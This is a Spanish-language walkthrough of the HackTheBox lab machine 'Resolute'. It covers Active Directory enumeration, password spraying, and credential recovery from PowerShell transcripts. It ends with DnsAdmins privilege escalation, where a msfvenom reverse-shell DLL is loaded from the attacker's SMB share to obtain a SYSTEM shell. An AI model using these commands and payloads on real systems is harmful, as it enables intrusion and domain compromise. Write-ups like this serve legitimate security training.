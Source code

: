 # 10.10.10.169 - Resolute
![Resolute](https://user-images.githubusercontent.com/96772264/211814413-9673d03c-d6b4-4096-8d7f-87f1b5233dda.png)

--------------------------
# Part 1: Enumeración

Puertos abiertos -> 53(dns),88(kerberos),135(rcp),139,389(ldap),445(smb),464,593(http),636,3269,3268(ldap),5985(winrm),9389.

Primero intentamos sacar el nombre del dominio:
```console
└─$ crackmapexec smb 10.10.10.169
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)

└─$ smbmap -H 10.10.10.169 -u "cucuxii"
# No nos dejan acceder sin creds
```

## Puerto 53:
```console
└─$ dig @10.10.10.169 megabank.local ns
# megabank.local resolute.megabank.local
└─$ dig @10.10.10.169 megabank.local mx 
# hostmaster.megabank.local
```
## Puerto 135 RPC:
```console
└─$ rpcclient -U "" -N 10.10.10.169 -c 'enumdomusers' | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users
└─$ rpcclient -U "" -N 10.10.10.169 -c 'enumdomusers' -c 'enumdomgroups' # Domain Admins (0x200)
└─$ rpcclient -U "" -N 10.10.10.169 -c 'querygroupmem 0x200' # -> rid 0x1f4
└─$ rpcclient -U "" -N 10.10.10.169 -c 'queryuser 0x1f4' # -> Administrator
└─$ rpcclient -U "" -N 10.10.10.169 -c 'querydispinfo' 
# Account: marko	Name: Marko Novak # Cuenta creada. Contraseña Welcome123!
```

Vamos a ver si funciona esta contraseña...
```console
└─$ smbmap -H 10.10.10.169 -u marko -p 'Welcome123!' # Error de autenticación
└─$ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
└─$ smbmap -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
# Tiene acceso a NETLOGON, SYSVOL e $IPC pero dentro no encuentro nada interesante
└─$ crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

--------------------------
# Part 2: En el sistema: Carpetas ocultas en disco C

```console
└─$ evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```
Subo mi script pero no encuentra nada interesante. Mi usaurio tampoco tiene nada interesante.     
En C:Users existe la carpeta home de otro usaurio, "ryan", no me deja acceder.   
```console
*Evil-WinRM* PS C:\Users\ryan> net user ryan
Global Group memberships     *Domain Users         *Contractors
```
Pero no parece que este grupo sirva para mucho...    
Encontramos en C una carpeta inusual "PSTranscripts" con dentro:  
```console
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
Dentro del script encontramos la frase "cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!"  

--------------------------
# Part 3: Escalando privilegios: Grupo DnsAdmins  
```console
└─$ evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'
```
En el escritorio tiene una nota:  
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email para el equipo:

- Como se congela el sistema cuando se aplican cambiosm todos esos cambios se revertiran en un minuto (salvo los
que haga el administrador)

*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups /fo list | findstr "Name"
MEGABANK\DnsAdmins
``` 
Este grupo es vulnerable. La manera de explotarlo se dice [aquí](https://lolbas-project.github.io/#)
Basicmanete si cargas una dll maliciosa, al resetear el servicio dns se aplica.  

```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=666 -f dll -o wtf.dll
└─$ impacket-smbserver carpeta $(pwd) -smb2support

*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.16\carpeta\wtf.dll
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

└─$ rlwrap nc -lnvp 666
C:\Windows\system32> whoami
nt authority\system
```


